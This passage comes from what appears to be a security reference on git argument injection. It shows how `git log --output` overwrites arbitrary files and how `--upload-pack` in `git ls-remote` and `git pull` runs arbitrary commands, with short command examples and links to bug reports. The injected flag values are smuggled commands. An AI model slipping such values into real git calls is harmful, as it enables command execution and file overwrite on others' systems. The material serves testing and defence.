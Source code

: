 `output` defines a specific file to output instead of stdout. You can use this to rewrite arbitrary files.

```bash
$ git log --output=/tmp/arbitrary_file
$ cat /tmp/arbitrary_file
commit c79538fb19b1d9d21bf26e9ad30fdeb90be1eaf0
Author: User <user@local>
Date:   Fri Aug 29 00:00:00 2021 +0000

    Controlled content
```

References:
- [Report: Git flag injection - local file overwrite to remote code execution](https://hackerone.com/reports/658013)
- [Report: Git flag injection leading to file overwrite and potential remote code execution](https://hackerone.com/reports/653125)

## git-ls-remote

{% embed url="https://git-scm.com/docs/git-ls-remote" %}

### --upload-pack

The [--upload-pack](https://git-scm.com/docs/git-ls-remote#Documentation/git-ls-remote.txt---upload-packltexecgt) flag can be used to execute arbitrary commands. The output is not shown, but it is possible to route the output to stderr using `>&2`.

```bash
$ mkdir repo
$ cd repo
$ git init
$ git ls-remote --upload-pack='cmdname arg1 arg2 >&2 #' main
```

References:
- [GTFOArgs: git](https://gtfoargs.github.io/gtfoargs/git/)

## git-pull

{% embed url="https://git-scm.com/docs/git-pull" %}

### --upload-pack

The [--upload-pack](https://git-scm.com/docs/git-pull#Documentation/git-pull.txt---upload-packltupload-packgt) flag can be used to execute arbitrary commands. The output is not shown, but it is possible to route the output to stderr using `>&2`.

```bash
$ mkdir repo
$ cd repo
$ git init
$ git pull main --upload-pack='cmdname arg1 arg2 >&2 #'
```
